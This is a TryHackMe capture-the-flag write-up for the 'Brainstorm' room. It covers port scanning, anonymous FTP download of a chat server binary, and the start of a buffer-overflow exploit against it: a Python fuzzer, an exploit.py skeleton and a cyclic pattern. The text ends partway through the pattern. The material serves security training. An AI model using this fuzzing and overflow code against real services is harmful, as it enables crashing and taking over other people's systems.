# Brainstorm Room

[Brainstorm](https://tryhackme.com/room/brainstorm) is a room where you have to reverse engineer a chat program and write a script to exploit a Windows machine.

## Port scan

Let's begin by performing a `nmap` scan.

```
$ nmap -T4 -p- -Pn 10.10.74.83
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 11:28 -03
Nmap scan report for 10.10.74.83
Host is up (0.22s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 231.45 seconds
```

> ⚠️ There's a bug in this room. As we can see from the port scan above, the answer to the second question of task 1 (_'How many ports are open?'_) should be 3, but the room expects you to input 6 as the answer.

Now, let's gather more information about the services runing in each of these ports.

```
sudo nmap -vvv -Pn -sC -sV -O -p 21,3389,9999 10.10.74.83

[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 11:39 -03
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:40
Completed NSE at 11:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:40
Completed NSE at 11:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:40
Completed NSE at 11:40, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:40
Completed Parallel DNS resolution of 1 host. at 11:40, 11.01s elapsed
DNS resolution of 1 IPs took 11.01s. Mode: Async [#: 4, OK: 0, NX: 1, DR: 0, SF: 0, TR: 5, CN: 0]
Initiating SYN Stealth Scan at 11:40
Scanning 10.10.74.83 [3 ports]
Discovered open port 21/tcp on 10.10.74.83
Discovered open port 3389/tcp on 10.10.74.83
Discovered open port 9999/tcp on 10.10.74.83
Completed SYN Stealth Scan at 11:40, 0.25s elapsed (3 total ports)
Initiating Service scan at 11:40
Scanning 3 services on 10.10.74.83
Service scan Timing: About 66.67% done; ETC: 11:42 (0:00:46 remaining)
Completed Service scan at 11:42, 162.50s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 10.10.74.83
Retrying OS detection (try #2) against 10.10.74.83
NSE: Script scanning 10.10.74.83.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:42
NSE: [ftp-bounce 10.10.74.83:21] PORT response: 501 Server cannot accept argument.
NSE Timing: About 99.76% done; ETC: 11:43 (0:00:00 remaining)
Completed NSE at 11:43, 31.64s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:43
Completed NSE at 11:43, 2.41s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:43
Completed NSE at 11:43, 0.00s elapsed
Nmap scan report for 10.10.74.83
Host is up, received user-set (0.22s latency).
Scanned at 2023-05-07 11:40:11 -03 for 202s

PORT     STATE SERVICE        REASON          VERSION
21/tcp   open  ftp            syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
3389/tcp open  ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2023-05-07T14:43:32+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=brainstorm
| Issuer: commonName=brainstorm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-05-06T14:17:05
| Not valid after:  2023-11-05T14:17:05
| MD5:   6a5c29f18c61c2bffee8996e1eccd246
| SHA-1: 28d79b6c78197d09cbecda9b8800327aaaf68e63
| -----BEGIN CERTIFICATE-----
| MIIC2DCCAcCgAwIBAgIQHsEev9Rco5dJN1A3WTy0yTANBgkqhkiG9w0BAQUFADAV
| MRMwEQYDVQQDEwpicmFpbnN0b3JtMB4XDTIzMDUwNjE0MTcwNVoXDTIzMTEwNTE0
| MTcwNVowFTETMBEGA1UEAxMKYnJhaW5zdG9ybTCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAL8uE6yEWOyiLKYNdX+AsvjLlU1IMvbY3+/s8W8pl/4uJWF6
| wk/GveYBvcBEZCUMWM4zd3RFlX9C6iFJYvGnV+kLNbYLYn/doNvIpJ4j4TMuUonU
| LupEshe5gwGxKU71fxMR9tqkT8Yf0L318RBQI0Blbmc+L9ekeB98KLmrzjZyOdX/
| 1kI45a5tmK+OMsPmEE3EcLTX7j+oLVhfEDP1oHGa3g/Sq2ZSJj27XK/BKE7q3caO
| Hp40EOP7VYNEO7wFpIlg20wIaq7/q5J/KjxkOLsRgP8nB8/byICCO/nx5UuJp7XV
| CgKpX2fgPWV3qq9f6QK1sl3bHbUGEQo6OoJBmQ8CAwEAAaMkMCIwEwYDVR0lBAww
| CgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IBAQAytIfn
| VzB8Y3KHPNeVCpro8xZz3TBRYvEYSYUv3wURyK1G/72wuzsrBr3KuUMmlARvXK1X
| gpMD9OsTIn03GAtwTELJQ39PrDWVQ5CYiapNo+Fn/TWN0L6BKiLIQirdi+b/4Qzm
| Kk/Yhu/K0FI6tJgf7ijvyPBnarKt4uYJxEL5Z8+m5d62AnHvXtQIcrjjfpSAJHBJ
| YhlFgj6uir5czO+fwpMoPASKMF37cshmQ4n7kKPn2EjWPbjXKjn+A4bl53fvOsIi
| 3L2veLPyh4UfbNX2mSAlq+pw7UZwM5W3FMl/IKSy1TZn6fp1PzIn6uWk8EaPDeB9
| IESuy0A50E9JO61T
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: BRAINSTORM
|   NetBIOS_Domain_Name: BRAINSTORM
|   NetBIOS_Computer_Name: BRAINSTORM
|   DNS_Domain_Name: brainstorm
|   DNS_Computer_Name: brainstorm
|   Product_Version: 6.1.7601
|_  System_Time: 2023-05-07T14:43:01+00:00
9999/tcp open  abyss?         syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
|   NULL: 
|     Welcome to Brainstorm chat (beta)
|_    Please enter your username (max 20 characters):
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.93%I=7%D=5/7%Time=6457B852%P=x86_64-pc-linux-gnu%r(NUL
SF:L,52,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\
SF:x20your\x20username\x20\(max\x2020\x20characters\):\x20")%r(GetRequest,
SF:63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x2
SF:0your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x20mess
SF:age:\x20")%r(HTTPOptions,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(b
SF:eta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20characters
SF:\):\x20Write\x20a\x20message:\x20")%r(FourOhFourRequest,63,"Welcome\x20
SF:to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20userna
SF:me\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(Ja
SF:vaRMI,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20en
SF:ter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x
SF:20message:\x20")%r(GenericLines,63,"Welcome\x20to\x20Brainstorm\x20chat
SF:\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20cha
SF:racters\):\x20Write\x20a\x20message:\x20")%r(RTSPRequest,63,"Welcome\x2
SF:0to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20usern
SF:ame\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(R
SF:PCCheck,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20
SF:enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a
SF:\x20message:\x20")%r(DNSVersionBindReqTCP,63,"Welcome\x20to\x20Brainsto
SF:rm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2
SF:020\x20characters\):\x20Write\x20a\x20message:\x20")%r(DNSStatusRequest
SF:TCP,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20ente
SF:r\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x20
SF:message:\x20")%r(Help,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta
SF:\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20characters\):
SF:\x20Write\x20a\x20message:\x20")%r(SSLSessionReq,63,"Welcome\x20to\x20B
SF:rainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\
SF:(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(TerminalS
SF:erverCookie,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease
SF:\x20enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\
SF:x20a\x20message:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=5/7%OT=21%CT=%CU=%PV=Y%G=N%TM=6457B915%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10B%TI=I%TS=7)
OPS(O1=M509NW8ST11%O2=M509NW8ST11%O3=M509NW8NNT11%O4=M509NW8ST11%O5=M509NW8ST11%O6=M509ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M509NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Uptime guess: 0.020 days (since Sun May  7 11:14:57 2023)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:43
Completed NSE at 11:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:43
Completed NSE at 11:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:43
Completed NSE at 11:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.26 seconds
           Raw packets sent: 89 (9.052KB) | Rcvd: 19 (1.052KB)

```

## Enumeration

FTP
```
$ ftp 10.10.74.83
Connected to 10.10.74.83.
220 Microsoft FTP Service
Name (10.10.74.83:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49306|)
ftp: Can't connect to `10.10.74.83:49306': Connection timed out
421 Service not available, remote server has closed connection.
229 Entering Extended Passive Mode (|||49306|)
ftp> dir
Not connected.
```
I had problems with passive mode, so I turned it off. After that I could list the content available in the ftp and download the files using binary mode.

```
ftp 10.10.74.83         
Connected to 10.10.74.83.
220 Microsoft FTP Service
Name (10.10.74.83:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful.
125 Data connection already open; Transfer starting.
08-29-19  08:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> dir
200 EPRT command successful.
125 Data connection already open; Transfer starting.
08-29-19  10:26PM                43747 chatserver.exe
08-29-19  10:27PM                30761 essfunc.dll
226 Transfer complete.
ftp> bin
200 Type set to I.
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************************************************************************************| 43747       39.14 KiB/s    00:00 ETA
226 Transfer complete.
43747 bytes received in 00:01 (39.11 KiB/s)
ftp> get essfunc.dll
local: essfunc.dll remote: essfunc.dll
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************************************************************************************| 30761       34.18 KiB/s    00:00 ETA
226 Transfer complete.
30761 bytes received in 00:00 (34.16 KiB/s)
ftp> bye
221 Goodbye.

```
Let's see whats running in the 9999 port.

```
$ nc 10.10.74.83 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): tryhackme
Write a message: Hello!


Sun May 07 08:03:07 2023
tryhackme said: Hello!
```

Let's see whta happens if we try to send more than 20 characters for the username input
```
$ nc 10.10.74.83 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): 12345678901234567890123
Write a message: Hello!


Sun May 07 08:04:29 2023
12345678901234567890 said: Hello!

```
Apparently the username has some kind of protection, then the software ignores extra characters

Now, let's try to send a big message:
```
$ nc 10.10.74.83 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): abcdefghijklmnopqrstuvwxyz
Write a message: Hello!


Sun May 07 08:05:14 2023
abcdefghijklmnopqrst said: Hello!


Write a message:  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                                                             
$

```
The service crashes! It could be a sign that we can overflow it.

## Exploitation

Let's analyse the `chatserver.exe` locally. After downloading it, I discovered that's the program which runs on the port 9999. Let's open the program with Immunity Debugger with  Mona plugin.

If you do not have Mona installed, you can follow this guide: [Installing Mona](https://www.oreilly.com/library/view/python-penetration-testing/9781784399771/5ab35be1-6224-4757-af48-84f931a1a765.xhtml)

The following section is based on the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) Room on TryHackMe. I made the necessary adaptations for this context, and included some screenshots.

First, you have to run Immunity Debugger as Administrator. When Immunity loads, you will open the `chatserver.exe` file. 





The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run.



With the Mona script preinstalled, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

```
!mona config -set workingfolder c:\mona\%p
```


This configuration will tell mona to use as working folder a directory called C:\mona\chatserver.

The next step is fuzzing. Create a file called `fuzzer.py` with the following contents:
```
#!/usr/bin/env python3

import socket, time, sys

ip = "127.0.0.1"
port = 9999
uname = "thm"
timeout = 5
buffer = "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      s.send(bytes(uname, "latin-1"))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(buffer)))
      s.send(bytes(buffer, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(buffer)))
    sys.exit(0)
  buffer += 100 * "A"
  time.sleep(1)

```
Run the `fuzzer.py` script using python: 

```
python3 fuzzer.py
```

The fuzzer will send increasingly long strings comprised of `A`'s. Once the fuzzer crashes the server with one of the strings, the fuzzer exits. Take note of the largest number of bytes that were sent. In this case, it was 2100.

```
$ python3 fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing with 2100 bytes
Fuzzing crashed at 2100 bytes
```
Create another file called `exploit.py` with the following contents:

```
import socket

ip = "127.0.0.1"
port = 9999
timeout = 5
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
prefix = ""
payload = ""
postfix = ""
uname = "thm"

buffer = prefix + overflow + retn + padding + payload + postfix

try:
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(timeout)
    s.connect((ip, port))
    s.recv(1024)
    s.send(bytes(uname, "latin-1"))
    s.recv(1024)
    print("Sending evil buffer...")
    s.send(bytes(buffer, "latin-1"))
    print("Done!")
except:
  print("Could not connect.")

```
We will now generate a cyclic pattern of random bytes that is 400 bytes longer than the string that crashed the server to minimize the error (since that length was 2100, the `-l` value is 2500). 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500   
```
The output is
``` 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co